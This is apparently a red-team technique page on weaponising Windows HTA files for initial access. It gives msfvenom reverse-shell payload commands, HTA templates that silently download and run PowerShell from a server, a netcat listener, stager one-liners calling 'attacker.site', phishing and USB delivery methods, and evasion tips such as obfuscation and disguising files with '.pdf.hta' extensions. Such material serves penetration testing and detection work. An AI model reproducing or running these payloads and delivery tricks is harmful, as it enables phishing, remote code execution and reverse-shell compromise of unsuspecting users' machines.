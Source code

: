 # HTA (HTML Application) Files

**Type:** Malicious Documents & File-Based Delivery
**Platform:** Windows  
**Prerequisites:** User must execute the `.hta` file manually (typically via phishing, USB drop, or drive-by); Windows Script Host must be enabled (enabled by default)


---
## Overview

**HTA (HTML Application)** files are Microsoft-specific executable HTML files (`.hta`) designed to run as **full-trust desktop applications** via `mshta.exe`. Unlike regular `.html` files, HTAs can access Windows Scripting Host (WSH), run system commands, interact with the file system, and spawn processes, making them ideal for malware delivery.

HTA files are commonly used by attackers for **initial access**, especially when paired with phishing emails, infected USB drops, or HTML smuggling. Since they are executed by `mshta.exe`, a **signed Microsoft binary**, HTA files can **bypass some AV/EDR detection**, and **run without macros or UAC prompts**.


---
## How It Works

1. Attacker creates an `.hta` file with embedded VBScript, JavaScript, or both.
2. The file is sent or dropped to the target system.
3. When the user opens it, `mshta.exe` executes the embedded script.
4. The script downloads and executes a second-stage payload or runs a reverse shell.

HTA execution is **native** to Windows (since XP) and doesn’t require any third-party tools or permissions.


---
## Prerequisites

**Tools Needed**
- Text editor (VS Code, Notepad++) or script generator
- Optional: `msfvenom`, PowerShell, ( for creating the second stage payload )
- Optional: Web server or hosting service



---
## Steps to Implement

1. **Create a Reverse Shell Payload (optional)**

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe -o shell.exe
```
or
```shell
msfvenom -p windows/powershell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f psh -o shell.ps1
```

Host it using:

```bash
python3 -m http.server 80
```

2. **Create a Malicious `.hta` File**

create a `.hta`  file with embedded **JavaScript** that runs system commands
```html
<html>
<head>
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')");
</script>
</head>
<body>
</body>
</html>
```

Or use **VBScript**:
```html
<html>
<head>
  <HTA:APPLICATION ID="test"/>

<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/payload.ps1')"
</script>
</head>
<body>
</body>
</html>
```

<img src="hta-file-screenshot-1.png" >
<img src="hta-file-screenshot-2.png" >

3. **Deliver the `.hta` File**

- Send via email as an attachment (e.g., `invoice.hta`)
- Upload to file-sharing services (Google Drive, Dropbox)
- Drop on USB devices or shared drives

4. **Set Up Listener**
- make sure the listener is up and running ( listening for incoming connection )
e.g:
```shell
nc -nlvp 9001
```

<img src="prepare-for-attack.png" >

5. **Execution**

- When the user clicks the `.hta` file, `mshta.exe` will render the the HTML page ( JavaScript/VBScript ) and the embedded command will runs silently and retrieves our payload, resulting in a reverse shell being established.

<img src="pwnd.png" >



---
## Payload/Code Snippets

- **PowerShell One-Liner Stager**
```powershell
powershell -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.site/shell.ps1')
```

- **mshta Command Execution**
```shell
mshta.exe http://attacker.site/payload.hta
```

> HTAs can be executed remotely by calling a hosted file using `mshta.exe`.

- **JavaScript to execute system commands** 
```html
<script>
      var r = new ActiveXObject("WScript.Shell");
      r.Run("calc.exe");
</script>
```

- **VBScript to execute system commands**
```html
<script language="VBScript">
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc.exe"
</script>
```

- **HTA tags ( configure the window and behavior of the application. )**
```html
<html>
<head>
  <HTA:APPLICATION 
    ID="CarCatalog"
    APPLICATIONNAME="CarCatalog"
    BORDER="thin"
    CAPTION="yes"
    SHOWINTASKBAR="yes"
    SINGLEINSTANCE="yes"
    SYSMENU="yes"
    WINDOWSTATE="normal" 
    SCROLL="yes" >
</head>
</html>
```


---
## Tips

- Use HTAs with obfuscated script (e.g., base64, JSFuck, or MacroPack)
- Combine with HTML Smuggling for stealth delivery
- Use .hta file extensions disguised as .pdf.hta, .doc.hta
- Some AVs may flag .hta, so host the payload as .txt or obfuscate the server path ( when using `mshta.exe <REMOTE-HTA>')



---
## References

- [LOLBAS: mshta.exe](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- [Mshta | Red Canary Threat Detection Report](https://redcanary.com/threat-detection-report/techniques/mshta/)
- [MITRE ATT&CK – T1218.005 (Signed Binary Proxy Execution: mshta.exe)](https://attack.mitre.org/techniques/T1218/005/)
- [Creating a Malicious HTML Document](https://github.com/k4sth4/Malicious-HTA-File)
- [HTML Application (.HTA) files are being used to distribute Smoke Loader](https://www.sonicwall.com/blog/html-application-hta-files-are-being-used-to-distribute-smoke-loader-malware)
- [How .HTA Files Can be used for initial access  YOUTUBE](https://youtu.be/uYSFH5A_UDk?si=v5j5F4vmjrXTDu9j)


---

**_Author_** : **o-sec**
